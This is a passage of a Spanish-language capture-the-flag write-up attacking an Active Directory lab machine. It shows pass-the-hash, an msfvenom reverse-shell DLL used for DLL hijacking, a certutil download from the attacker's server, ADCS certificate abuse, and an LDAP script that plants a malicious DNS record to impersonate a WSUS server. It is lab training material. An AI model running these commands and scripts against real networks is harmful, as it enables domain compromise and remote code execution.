[*] NT hash for 'msa_health$': 603fc24ee01a9409f83c9d1d701485c5
```

### ¿Qué está ocurriendo aquí?

Este ataque:

1. Genera un **certificado temporal**
2. Crea una **Key Credential** asociada a la cuenta `MSA_HEALTH$`
3. La añade al atributo `msDS-KeyCredentialLink`
4. Se autentica usando ese certificado (sin contraseña)
5. Solicita un **TGT vía Kerberos**
6. Extrae el **hash NTLM**
7. Restaura el estado original para minimizar impacto (cleanup automático)

Esto permite comprometer la cuenta **sin necesidad de conocer su contraseña ni respetar restricciones horarias**.

## Abuso del hash (Pass-The-Hash)

Con el hash NTLM obtenido:

```
[*] NT hash for 'msa_health$': 603fc24ee01a9409f83c9d1d701485c5
```

Realizamos un **Pass-The-Hash** a través de WinRM:

```shell
evil-winrm -i <IP> -u 'msa_health$' -H '603fc24ee01a9409f83c9d1d701485c5'
```

Respuesta:

```
Evil-WinRM shell v3.9

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\msa_health$\Documents> whoami
logging\msa_health$
```

# Escalate user jaylee.clifton

<figure><figcaption></figcaption></figure>

Una vez obtenemos acceso como `msa_health$`, comenzamos la enumeración del entorno. Al listar el directorio actual encontramos lo siguiente:

```
Directory: C:\Users\msa_health$\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/17/2026   9:02 AM           1059 monitor.ps1
```

Identificamos un script en **PowerShell**, por lo que procedemos a analizar su contenido:

```powershell
<#
.SYNOPSIS
    Monitors the status of the "UpdateChecker Agent" scheduled task.
    Uses COM interface to avoid CIM/WMI permission issues.
#>

$TaskName = "UpdateChecker Agent"
$LogPath = "C:\Share\Logs\TaskMonitor.log"
$Timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"

try {
    $service = New-Object -ComObject "Schedule.Service"
    $service.Connect()
    $task = $service.GetFolder("\").GetTask($TaskName)

    $State = switch ($task.State) {
        1 { "Disabled" }
        2 { "Queued" }
        3 { "Ready" }
        4 { "Running" }
        5 { "Disabled" }
        6 { "Unknown" }
        default { "Unknown" }
    }

    if ($State -ne "Ready" -and $State -ne "Running") {
        $Message = "[$Timestamp] WARN  - Task [$TaskName] is in an unexpected state: $State"
    }
    else {
        $Message = "[$Timestamp] INFO  - Task [$TaskName] health check: OK (State: $State)"
    }
}
catch {
    $Message = "[$Timestamp] ERROR - Failed to query task [$TaskName]. Exception: $($_.Exception.Message)"
}

Add-Content -Path $LogPath -Value $Message
```

### Análisis del script

El script implementa un mecanismo de monitorización sobre una tarea programada llamada:

```
UpdateChecker Agent
```

Para ello:

- Utiliza la interfaz **COM (`Schedule.Service`)** para interactuar con el programador de tareas
- Consulta el estado de la tarea
- Genera logs en la ruta:

```
C:\Share\Logs\TaskMonitor.log
```

Esto nos da una pista clara: existe un **componente automatizado ejecutándose periódicamente**, lo cual es un buen candidato para técnicas de escalada.

## Descubrimiento del binario asociado

Buscando artefactos relacionados, localizamos un directorio interesante:

```powershell
Get-ChildItem 'C:\Program Files\UpdateMonitor\' -Recurse
```

Respuesta:

```
Directory: C:\Program Files\UpdateMonitor

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/16/2026   4:10 PM                bin
-a----        2/21/2026   3:52 PM            189 App.config
-a----         4/9/2026  10:31 PM           8192 UpdateMonitor.exe
```

Además, encontramos logs relevantes en:

```
C:\ProgramData\UpdateMonitor\Logs\monitor.log
```

Contenido clave:

```
[2026-04-20 15:14:15] Loading update applier: C:\Program Files\UpdateMonitor\bin\settings_update.dll
[2026-04-20 15:14:15] Failed to load settings_update.dll. Error code: 126
```

## Análisis del comportamiento

A partir de los logs, podemos inferir que `UpdateMonitor.exe`:

1. Se ejecuta de forma periódica (≈ cada 3 minutos)
2. Busca un archivo:

```
C:\ProgramData\UpdateMonitor\Settings_Update.zip
```

3. Intenta cargar la DLL:

```
C:\Program Files\UpdateMonitor\bin\settings_update.dll
```

El error:

```
Error code: 126 (ERROR_MOD_NOT_FOUND)
```

indica que la DLL **no existe actualmente**, lo cual abre la puerta a un ataque de **DLL Hijacking**.

## Análisis de permisos

Comenzamos verificando los permisos sobre los directorios implicados en el flujo de ejecución del binario:

```powershell
icacls "C:\Program Files\UpdateMonitor\bin"
icacls "C:\ProgramData\UpdateMonitor"
```

**Resultado**

- `C:\Program Files\UpdateMonitor\bin`  
   → Únicamente el grupo `logging\IT` dispone de **control total**. El usuario `msa_health$` **no pertenece a este grupo**, por lo que no tenemos capacidad de escritura en esta ruta.
- `C:\ProgramData\UpdateMonitor`  
   → El grupo `BUILTIN\Users` cuenta con permisos:
  - `WD` (Write Data)
  - `AD` (Add File)

Esto implica que **sí podemos crear y escribir archivos en este directorio**, lo cual es clave para la explotación.

## Estrategia de explotación

Dado que no tenemos permisos de escritura sobre la ruta donde se carga la DLL (`Program Files`), pero sí sobre `ProgramData`, planteamos dos posibles vectores de ataque:

1. **Opción A (directa):**

Subir una DLL maliciosa a:

```
C:\ProgramData\UpdateMonitor\settings_update.dll
```

con la expectativa de que el binario la cargue desde su directorio de trabajo o rutas alternativas.

2. **Opción B (path traversal):**

Crear un archivo:

```
Settings_Update.zip
```

que contenga un payload con **path traversal**, de forma que al descomprimirse coloque la DLL en:

```
C:\Program Files\UpdateMonitor\bin\
```

Inicialmente probamos la **Opción A**, ya que es más sencilla y rápida de validar.

## Generación de la DLL maliciosa

Desde nuestra máquina atacante (Kali), generamos una DLL con una reverse shell utilizando `msfvenom`:

```shell
# Generaremos una DLL de 32 Bits ya que la aplicacion esde 32 Bits y no de &4 Bits
msfvenom -p windows/shell_reverse_tcp LHOST=<IP_ATTACKER> LPORT=<PORT> -f dll -o settings_update.dll
zip -j Settings_Update.zip settings_update.dll
```

Respuesta:

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: settings_update.dll
```

> ⚠️ Nota: Aunque el output indica arquitectura x64, es importante ajustar explícitamente la arquitectura (`-a x86`) si el binario objetivo es de 32 bits para evitar incompatibilidades.

## Subida y ejecución

Subimos el archivo comprimido al directorio donde tenemos permisos de escritura:

```shell
upload Settings_Update.zip "C:\ProgramData\UpdateMonitor\Settings_Update.zip"
```

Respuesta:

```
Info: Uploading /home/kali/Desktop/HTB/logging/Settings_Update.zip to C:\ProgramData\UpdateMonitor\Settings_Update.zip

Data: 12288 bytes of 12288 bytes copied

Info: Upload successful!
```

A continuación, nos ponemos a la escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

## Obtención de la shell

Esperamos aproximadamente **3 minutos**, que corresponde al intervalo de ejecución de la tarea programada que lanza `UpdateMonitor.exe`.

Si la DLL es cargada correctamente, recibiremos una conexión entrante:

```
listening on [any] 7777 ...
connect to [10.10.15.35] from (UNKNOWN) [10.129.41.136] 63617
Microsoft Windows [Version 10.0.17763.8644]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
logging\jaylee.clifton
```

Confirmamos que la explotación ha sido exitosa:

- Se ha abusado de permisos de escritura en `ProgramData`
- Se ha aprovechado una carga insegura de DLL (DLL Hijacking)
- Se ha conseguido ejecución de código en el contexto de la tarea programada

Finalmente, obtenemos acceso como el usuario:

```
jaylee.clifton
```

Por lo que leeremos la `flag` del usuario.

> user.txt

```
cdacc70bd9b7c9ffe2f6e96702a308b2
```

# Escalate Privileges

<figure><figcaption></figcaption></figure>

Decidimos enumerar los **Active Directory Certificate Services (ADCS)** en busca de plantillas de certificados potencialmente vulnerables. Para ello, utilizamos la herramienta `certipy-ad` desde nuestra máquina atacante:

```shell
certipy-ad find -u 'msa_health$' -hashes ':603fc24ee01a9409f83c9d1d701485c5' -dc-ip <IP_VICTIM> -target logging.htb -stdout -enabled
```

**Resultado del escaneo**

El análisis identificó:

- **34 plantillas de certificados**
- **12 plantillas habilitadas**

Tras revisar el output, encontramos una plantilla especialmente relevante:

```
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'logging-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'logging-DC01-CA'
[*] Checking web enrollment for CA 'logging-DC01-CA' @ 'DC01.logging.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
..............................<RESTO DE INFO>.....................................
Certificate Templates
  0
    Template Name                       : UpdateSrv
    Display Name                        : UpdateSrv
    Certificate Authorities             : logging-DC01-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2026-04-17T00:41:06+00:00
    Template Last Modified              : 2026-04-17T00:41:07+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : LOGGING.HTB\IT
                                          LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : LOGGING.HTB\Administrator
        Full Control Principals         : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
        Write Owner Principals          : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
        Write Dacl Principals           : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
        Write Property Enroll           : LOGGING.HTB\Domain Admins
                                          LOGGING.HTB\Enterprise Admins
..............................<RESTO DE INFO>.....................................
```

## Análisis de la plantilla `UpdateSrv`

| Atributo                    | Valor                   | Implicación                                                                    |
| --------------------------- | ----------------------- | ------------------------------------------------------------------------------ |
| `Enrollee Supplies Subject` | `True`                  | El solicitante puede definir manualmente el **Subject Alternative Name (SAN)** |
| `Extended Key Usage`        | `Server Authentication` | El certificado es válido para **autenticación de servidor (SSL/TLS)**          |
| `Client Authentication`     | `False`                 | No permite autenticación como cliente (PKINIT)                                 |
| `Enrollment Rights`         | `LOGGING.HTB\IT`        | Solo miembros del grupo `IT` pueden solicitar certificados                     |

### Limitación clave

Debido a la ausencia del EKU **Client Authentication**, este certificado:

- ❌ **No puede utilizarse para autenticación Kerberos (PKINIT)**
- ❌ No permite obtener un **TGT** ni extraer hashes directamente

Esto descarta vectores clásicos de abuso como ESC1 orientado a autenticación.

## Vector de explotación real: Suplantación de servidor (TLS)

A pesar de la limitación anterior, la plantilla sigue siendo explotable debido a:

✔ Capacidad de definir un **SAN arbitrario**  
✔ Permisos de enrolamiento para el grupo `IT` (al que pertenece `jaylee.clifton`)

Esto permite:

- Solicitar certificados para **cualquier hostname del dominio**
- Suplantar servicios legítimos que utilicen TLS
- Realizar ataques de:
  - **Man-in-the-Middle (MitM)**
  - **Server Impersonation**

## Explotación (ESC1 adaptado): Suplantación de WSUS

Dado el contexto del entorno (presencia de `UpdateMonitor.exe`), es razonable asumir la existencia de un servidor **WSUS**.

### Paso 1: Generación de clave privada

```shell
openssl genrsa -out administrator.key 2048
```

### Paso 2: Creación del CSR con SAN controlado

```shell
nano csr.conf

#Dentro del nano
[req]
default_bits = 2048
prompt = no
default_md = sha256
distinguished_name = dn
req_extensions = req_ext

[dn]
CN = jaylee.clifton
emailAddress = administrator@logging.htb

[req_ext]
subjectAltName = @alt_names

[alt_names]
DNS.1 = DC01.logging.htb
DNS.2 = WSUS.logging.htb
otherName.0 = 1.3.6.1.4.1.311.20.2.3;UTF8:administrator@logging.htb
```

Generamos el CSR:

```shell
openssl req -new -key administrator.key -out administrator.csr -config csr.conf
```

### Paso 3: Transferencia del CSR a la máquina víctima

Para enviar el archivo CSR (`administrator.csr`) a la máquina comprometida, levantamos un servidor HTTP simple desde nuestra máquina atacante:

```shell
python3 -m http.server 80
```

A continuación, desde la sesión del usuario `jaylee.clifton` en la máquina víctima, descargamos el archivo utilizando `certutil`:

```powershell
cd C:\Users\jaylee.clifton\Documents\

# Descargarnos el archivo
certutil -urlcache -split -f http://10.10.15.35/administrator.csr administrator.csr
```

Una vez transferido, procedemos a solicitar el certificado a la Autoridad de Certificación (CA) del dominio utilizando la plantilla vulnerable `UpdateSrv`:

```shell
# Generar el .cer
certreq -submit -attrib "CertificateTemplate:UpdateSrv" -config "DC01.logging.htb\logging-DC01-CA" C:\Users\jaylee.clifton\Documents\administrator.csr C:\Users\jaylee.clifton\Documents\issued.cer
```

Respuesta:

```
RequestId: 7
RequestId: "7"
Certificate retrieved(Issued) Issued
```

Esto confirma que la solicitud ha sido procesada correctamente y que el certificado (`issued.cer`) ha sido emitido por la CA.

### Codificación y exfiltración del certificado

Dado que necesitamos transferir el certificado a nuestra máquina Kali, lo codificamos en Base64 para facilitar su copia:

```cmd
certutil -encode C:\Users\jaylee.clifton\Documents\issued.cer C:\Users\jaylee.clifton\Documents\issued.b64
```

Respuesta:

```
Input Length = 2458
Output Length = 3440
CertUtil: -encode command completed successfully.
```

A continuación, copiamos el contenido del archivo `issued.b64` y lo pegamos en nuestra máquina atacante en un archivo llamado `issued.cer`.

> issued.cer

```
LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tDQpNSUlHelRDQ0JMV2dBd0lCQWdJ
VEZBQUFBQWNjZmJwNDg1UnJYd0FCQUFBQUJ6QU5CZ2txaGtpRzl3MEJBUXNGDQpB
REJJTVJNd0VRWUtDWkltaVpQeUxHUUJHUllEYUhSaU1SY3dGUVlLQ1pJbWlaUHlM
R1FCR1JZSGJHOW5aMmx1DQpaekVZTUJZR0ExVUVBeE1QYkc5bloybHVaeTFFUXpB
eExVTkJNQjRYRFRJMk1EUXlNVEF3TVRVek5sb1hEVE0yDQpNRFF4T0RBd01UVXpO
bG93UXpFWE1CVUdBMVVFQXhNT2FtRjViR1ZsTG1Oc2FXWjBiMjR4S0RBbUJna3Fo
a2lHDQo5dzBCQ1FFV0dXRmtiV2x1YVhOMGNtRjBiM0pBYkc5bloybHVaeTVvZEdJ
d2dnRWlNQTBHQ1NxR1NJYjNEUUVCDQpBUVVBQTRJQkR3QXdnZ0VLQW9JQkFRQ2xy
VzUzUmk1cUliQitqd21BeER4Vkc1YlA1TG5aeXJQMjJlN0xCSXFjDQp3Yi9BQ0tN
T0wvemhrR2pmM0hBR242eGRoQkNkVWtnNGoycG91Tjg4L3lIcVdzT2hNQVhUVTQv
NUF1dzIvNmJsDQo3Nm5jL1VtcG5vK3lMemZ1YWZsZEZHY2k3czc4Y1AxaU1Zd2NG
VmEwU0djaXRxR1RzeEpCSys1YUYvMm1BR2lPDQpkeGVoM21oOUhkN1hmM0VJckJI
bHRmQUFCYnNRaXYwYjhuVUZMcWlUSUVveEFRMHNiZytYM1AybGtKZlBlYWlqDQpn
M1ZteDBjMHJEVmpWKy9qR2ExRjl2UFBNQTZLU2FDb1ByL1FqNld2b0RKWXl5UVk5
RXB0dlhVbmZENlBDSWFEDQpQOWFSK2tnbVZxWklZY3B6eHl2RzE2REJ3YWJzRUFY
ZFdnUTdPQmdoTzQvckFnTUJBQUdqZ2dLek1JSUNyekJZDQpCZ05WSFJFRVVUQlBn
aEJFUXpBeExteHZaMmRwYm1jdWFIUmlnaEJYVTFWVExteHZaMmRwYm1jdWFIUmlv
Q2tHDQpDaXNHQVFRQmdqY1VBZ09nR3d3WllXUnRhVzVwYzNSeVlYUnZja0JzYjJk
bmFXNW5MbWgwWWpBZEJnTlZIUTRFDQpGZ1FVVXI3VDdxMmxFdUZpOHFxRW0vMHZG
dVVSQnpnd0h3WURWUjBqQkJnd0ZvQVU4SzJXRkczODdkVzhXYmJpDQp1elA1eGps
dUE1VXdnYzBHQTFVZEh3U0J4VENCd2pDQnY2Q0J2S0NCdVlhQnRteGtZWEE2THk4
dlEwNDliRzluDQpaMmx1WnkxRVF6QXhMVU5CS0RFcExFTk9QVVJETURFc1EwNDlR
MFJRTEVOT1BWQjFZbXhwWXlVeU1FdGxlU1V5DQpNRk5sY25acFkyVnpMRU5PUFZO
bGNuWnBZMlZ6TEVOT1BVTnZibVpwWjNWeVlYUnBiMjRzUkVNOWJHOW5aMmx1DQpa
eXhFUXoxb2RHSS9ZMlZ5ZEdsbWFXTmhkR1ZTWlhadlkyRjBhVzl1VEdsemREOWlZ
WE5sUDI5aWFtVmpkRU5zDQpZWE56UFdOU1RFUnBjM1J5YVdKMWRHbHZibEJ2YVc1
ME1JSEJCZ2dyQmdFRkJRY0JBUVNCdERDQnNUQ0JyZ1lJDQpLd1lCQlFVSE1BS0dn
YUZzWkdGd09pOHZMME5PUFd4dloyZHBibWN0UkVNd01TMURRU3hEVGoxQlNVRXNR
MDQ5DQpVSFZpYkdsakpUSXdTMlY1SlRJd1UyVnlkbWxqWlhNc1EwNDlVMlZ5ZG1s
alpYTXNRMDQ5UTI5dVptbG5kWEpoDQpkR2x2Yml4RVF6MXNiMmRuYVc1bkxFUkRQ
V2gwWWo5alFVTmxjblJwWm1sallYUmxQMkpoYzJVL2IySnFaV04wDQpRMnhoYzNN
OVkyVnlkR2xtYVdOaGRHbHZia0YxZEdodmNtbDBlVEFPQmdOVkhROEJBZjhFQkFN
Q0JhQXdQUVlKDQpLd1lCQkFHQ054VUhCREF3TGdZbUt3WUJCQUdDTnhVSWhmS0Jm
NFdIajErRzNZY1lndGVORG9QWTVtaUJHb2FxDQo0VVdLL1gwQ0FXUUNBUU13RXdZ
RFZSMGxCQXd3Q2dZSUt3WUJCUVVIQXdFd0d3WUpLd1lCQkFHQ054VUtCQTR3DQpE
REFLQmdnckJnRUZCUWNEQVRBTkJna3Foa2lHOXcwQkFRc0ZBQU9DQWdFQXlrT0h3
MGt5WXQ3eUZOemZsK0RjDQpZZFRDczkvZ0JCcW1jc3NaUDFiZnhNTU5jcWZkVXkr
Z1lLaHY2ak5NT2F3M0plNk9sdk1QNVluL3FVMmhUMTJwDQpRdzdJREVwcGRyK2Jt
NEhCeS9ZRFAyK24vMktFSWtwWGRGeFB3ZmVHSTgvaDhuUmlycTAxZ0hIUUg0N1VV
aGFMDQpFdW9NSG5LcXZBakxVZlgwQTVxUjJRbUJZb3gwcWJzUWNZdCtUb1J5VEpG
cHNJVUkxMVVxS0JMQlNVQWgyRzhaDQpSYWFQWkVZNDJ5WjNVdUJjcEtFekRFYjd2
SE0yWHVMQXpIWFNieVhBekNBZExvd2Z0LzFLdGZINkN2eDZYMk45DQpjVSs0Qytj
cEFTbWRBeHArNFJZZjBMRTlkQjRLaHdqejJVd2lXV21nOEZ0aUJnOUhkei96STNi
STRjVnlRejlPDQpWRkZaalVEa0FSZlZTb3kraTh3ajh1Z2w1dmFWMEk1Ri9BWGVN
eFJEOHIxeEk2QjZOck9aSUhSa0VxQWVpa1FNDQpBOGdTcUVob3c3Z3cxYThEaUVQ
ZHZBTmZaM3l5UlJzNHhDZ3AyOS92VDdRbUpzVGRBUDBiQlhoTU9SQWsrSXZGDQpy
RzVFOWh4YVMxMUMvSmxhYmI5UGtiQ1JsbDFtelJPQjEvVk5mbmU1UUNnSGNrZXdp
YnhtVk1DRG1zeFFyL2VTDQpWd3MwL1NyMTErcFI3NkVjYUJta0VEMGw2b3pTM1Rh
bEtqdWduOUgzdE13M2ZZSDMyVUQ0aXVTOWN4eEZiLzBMDQpBZDMwNW1pQ0JlVnRu
NmdWV1dudmJqT2V6STlIQ2FXYlk0SCs5ZlhsTVBBNzkyeXNTeVdwaXN3ejRxSFlW
MDRzDQpnMG9GQ0MrcmF4R1NmV1l0WXVuRnpLOD0NCi0tLS0tRU5EIENFUlRJRklD
QVRFLS0tLS0NCg==
```

### Decodificación del certificado en Kali

Una vez tenemos el contenido en formato Base64 en Kali, lo decodificamos para recuperar el certificado original:

```shell
cat issued.cer | base64 -d -w0
```

Respuesta:

```
-----BEGIN CERTIFICATE-----
MIIGzTCCBLWgAwIBAgITFAAAAAccfbp485RrXwABAAAABzANBgkqhkiG9w0BAQsF
ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbG9nZ2lu
ZzEYMBYGA1UEAxMPbG9nZ2luZy1EQzAxLUNBMB4XDTI2MDQyMTAwMTUzNloXDTM2
MDQxODAwMTUzNlowQzEXMBUGA1UEAxMOamF5bGVlLmNsaWZ0b24xKDAmBgkqhkiG
9w0BCQEWGWFkbWluaXN0cmF0b3JAbG9nZ2luZy5odGIwggEiMA0GCSqGSIb3DQEB
AQUAA4IBDwAwggEKAoIBAQClrW53Ri5qIbB+jwmAxDxVG5bP5LnZyrP22e7LBIqc
wb/ACKMOL/zhkGjf3HAGn6xdhBCdUkg4j2pouN88/yHqWsOhMAXTU4/5Auw2/6bl
76nc/Umpno+yLzfuafldFGci7s78cP1iMYwcFVa0SGcitqGTsxJBK+5aF/2mAGiO
dxeh3mh9Hd7Xf3EIrBHltfAABbsQiv0b8nUFLqiTIEoxAQ0sbg+X3P2lkJfPeaij
g3Vmx0c0rDVjV+/jGa1F9vPPMA6KSaCoPr/Qj6WvoDJYyyQY9EptvXUnfD6PCIaD
P9aR+kgmVqZIYcpzxyvG16DBwabsEAXdWgQ7OBghO4/rAgMBAAGjggKzMIICrzBY
BgNVHREEUTBPghBEQzAxLmxvZ2dpbmcuaHRighBXU1VTLmxvZ2dpbmcuaHRioCkG
CisGAQQBgjcUAgOgGwwZYWRtaW5pc3RyYXRvckBsb2dnaW5nLmh0YjAdBgNVHQ4E
FgQUUr7T7q2lEuFi8qqEm/0vFuURBzgwHwYDVR0jBBgwFoAU8K2WFG387dW8Wbbi
uzP5xjluA5Uwgc0GA1UdHwSBxTCBwjCBv6CBvKCBuYaBtmxkYXA6Ly8vQ049bG9n
Z2luZy1EQzAxLUNBKDEpLENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUy
MFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9bG9nZ2lu
ZyxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENs
YXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHBBggrBgEFBQcBAQSBtDCBsTCBrgYI
KwYBBQUHMAKGgaFsZGFwOi8vL0NOPWxvZ2dpbmctREMwMS1DQSxDTj1BSUEsQ049
UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJh
dGlvbixEQz1sb2dnaW5nLERDPWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0
Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTAOBgNVHQ8BAf8EBAMCBaAwPQYJ
KwYBBAGCNxUHBDAwLgYmKwYBBAGCNxUIhfKBf4WHj1+G3YcYgteNDoPY5miBGoaq
4UWK/X0CAWQCAQMwEwYDVR0lBAwwCgYIKwYBBQUHAwEwGwYJKwYBBAGCNxUKBA4w
DDAKBggrBgEFBQcDATANBgkqhkiG9w0BAQsFAAOCAgEAykOHw0kyYt7yFNzfl+Dc
YdTCs9/gBBqmcssZP1bfxMMNcqfdUy+gYKhv6jNMOaw3Je6OlvMP5Yn/qU2hT12p
Qw7IDEppdr+bm4HBy/YDP2+n/2KEIkpXdFxPwfeGI8/h8nRirq01gHHQH47UUhaL
EuoMHnKqvAjLUfX0A5qR2QmBYox0qbsQcYt+ToRyTJFpsIUI11UqKBLBSUAh2G8Z
RaaPZEY42yZ3UuBcpKEzDEb7vHM2XuLAzHXSbyXAzCAdLowft/1KtfH6Cvx6X2N9
cU+4C+cpASmdAxp+4RYf0LE9dB4Khwjz2UwiWWmg8FtiBg9Hdz/zI3bI4cVyQz9O
VFFZjUDkARfVSoy+i8wj8ugl5vaV0I5F/AXeMxRD8r1xI6B6NrOZIHRkEqAeikQM
A8gSqEhow7gw1a8DiEPdvANfZ3yyRRs4xCgp29/vT7QmJsTdAP0bBXhMORAk+IvF
rG5E9hxaS11C/Jlabb9PkbCRll1mzROB1/VNfne5QCgHckewibxmVMCDmsxQr/eS
Vws0/Sr11+pR76EcaBmkED0l6ozS3TalKjugn9H3tMw3fYH32UD4iuS9cxxFb/0L
Ad305miCBeVtn6gVWWnvbjOezI9HCaWbY4H+9fXlMPA792ysSyWpiswz4qHYV04s
g0oFCC+raxGSfWYtYunFzK8=
-----END CERTIFICATE-----
```

Esto nos permite reconstruir correctamente el certificado emitido por la CA del dominio.

### Preparación del archivo PKCS#12 (.pfx)

Una vez disponemos tanto del certificado emitido (`issued.cer`) como de la clave privada previamente generada (`administrator.key`), el siguiente paso consiste en combinarlos en un único contenedor en formato **PKCS#12 (.pfx)**.

Este formato es especialmente útil ya que encapsula tanto el certificado como su clave privada, permitiendo su uso directo en servicios que requieran autenticación TLS/SSL.

Este archivo `.pfx` será posteriormente utilizado para configurar nuestro servidor WSUS malicioso, permitiéndonos establecer comunicaciones cifradas y suplantar de forma efectiva a un servicio legítimo dentro del dominio.

```shell
openssl pkcs12 -export -in issued.cer -inkey administrator.key -out administrator.pfx -password pass:Passw0rd!
openssl pkcs12 -info -in administrator.pfx -noout -password pass:Passw0rd!
```

### Manipulación de DNS mediante cuenta de máquina

Con el certificado preparado, el siguiente objetivo es redirigir el tráfico destinado a `wsus.logging.htb` hacia nuestra máquina atacante. Para ello, necesitamos manipular la resolución DNS dentro del dominio.

La cuenta `msa_health$` dispone del privilegio `SeMachineAccountPrivilege`, lo que le permite añadir nuevas cuentas de equipo al dominio. Por defecto, el atributo `MachineAccountQuota` permite la creación de hasta 10 máquinas por usuario autenticado.

Aprovechando este comportamiento, creamos una nueva cuenta de equipo (`attacker01$`) que utilizaremos como identidad para interactuar con LDAP y modificar registros DNS:

```shell
faketime -f '+7h' impacket-addcomputer -computer-name 'attacker01$' -computer-pass 'SuperP@ss!' -hashes ':603fc24ee01a9409f83c9d1d701485c5' -dc-ip <IP_VICTIM> 'logging.htb/msa_health$'
```

Respuesta:

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account attacker01$ with password SuperP@ss!.
```

Veremos que la cuenta se ha creado de forma correcta en el `AD`.

### Inserción de registro DNS malicioso

<figure><figcaption></figcaption></figure>

A continuación, utilizamos la cuenta recién creada (`attacker01$`) para insertar un registro DNS de tipo **A** en la zona del dominio. Esto permitirá que el hostname `wsus.logging.htb` resuelva directamente a nuestra IP de atacante, redirigiendo así el tráfico del servicio WSUS.

Para ello, empleamos un script en Python que interactúa directamente con LDAP y crea un objeto `dnsNode` en la partición `DomainDnsZones`.

> add_dns.py

```python
#!/usr/bin/env python3
# add_dns.py
import ldap3
import struct

# CAMBIA ESTO POR TU IP DE VPN
ATTACKER_IP = '<IP_ATTACKER_VPN>'  # <--- ¡TU IP DE VPN!
TARGET_IP = '<IP_VICTIM>'

ip = bytes(int(x) for x in ATTACKER_IP.split('.'))

# DNS_RPC_RECORD_A: DataLen(2) Type(2) Ver(1) Rank(1) Flags(2) Serial(4) Ttl(4) Reserved(4) TimeStamp(4) Data(4)
record = struct.pack('<HHBBHIIII', 4, 1, 5, 0xF0, 0, 1, 180, 0, 0) + ip

s = ldap3.Server(TARGET_IP, port=389)
c = ldap3.Connection(s, user='logging.htb\\attacker01$', password='SuperP@ss!',
                     authentication=ldap3.NTLM, auto_bind=True)

c.add('DC=wsus,DC=logging.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=logging,DC=htb',
      ['top', 'dnsNode'],
      {'dnsRecord': [record], 'dnsTombstoned': 'FALSE'})

print(f"[+] Resultado: {c.result}")
print(f"[+] wsus.logging.htb -> {ATTACKER_IP}")
```

Ejecutamos el script:

```shell
python3 add_dns.py
```

Respuesta:

```
[+] Resultado: {'result': 0, 'description': 'success', 'dn': '', 'message': '', 'referrals': None, 'type': 'addResponse'}
[+] wsus.logging.htb -> 10.10.15.35
```

Esto confirma que el registro DNS ha sido insertado correctamente.

### Verificación de la resolución DNS

Para validar que el cambio ha surtido efecto, comprobamos desde la máquina víctima la resolución del dominio:

```powershell
Resolve-DnsName wsus.logging.htb
```

Respuesta:

```
Name                                           Type   TTL   Section    IPAddress
----                                           ----   ---   -------    ---------
wsus.logging.htb                               A      30198 Answer     10.10.15.35
                                                      98880
```

Con esto confirmamos que cualquier intento de conexión hacia `wsus.logging.htb` será redirigido a nuestra máquina atacante.

## Configuración del servidor WSUS falso

<figure><figcaption></figcaption></figure>

El siguiente paso consiste en desplegar un servidor HTTPS que escuche en los puertos habituales de WSUS (**8530/8531**) y que se haga pasar por el servidor legítimo del dominio.

Para ello, utilizaremos la herramienta `wsuks`, un servidor WSUS malicioso desarrollado en Python, junto con el certificado `administrator.pfx` generado previamente, el cual es válido para el nombre `wsus.logging.htb`.

Este setup nos permitirá interceptar y manipular el tráfico de actualización, abriendo la puerta a ataques como **ejecución remota de código** en los clientes que confíen en este servicio.

### Preparar el Certificado

Extraemos el certificado y su clave privada desde el contenedor PKCS#12 en formato PEM para poder utilizarlos en el servidor HTTPS:

```shell
# Extraer certificado
openssl pkcs12 -in administrator.pfx -clcerts -nokeys -out wsus_srv_cert.pem -password pass:Passw0rd!

# Extraer clave privada
